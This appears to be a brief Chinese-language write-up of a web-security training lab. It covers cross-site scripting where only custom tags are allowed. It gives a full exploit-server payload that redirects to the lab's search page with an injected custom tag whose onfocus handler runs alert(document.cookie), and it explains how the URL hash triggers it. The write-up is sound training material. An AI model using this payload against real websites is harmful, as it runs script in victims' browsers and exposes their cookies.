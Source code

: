 # 题意
![](pic/9-2.png)

本实验屏蔽了除custom标签以外的所有标签，需要注入带custom标签的xss攻击唤起。
# 解题思路
step1:

进入exploit server，将body设置成如下payload并点击保存和deliver即可。
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

这段payload用ID x创建了一个custom标签，包括一个可以触发alert()的onfocus事件处理器，url结尾的hash在页面加载完毕之后会绑定该元素，从而调用这个payload.
# 知识点
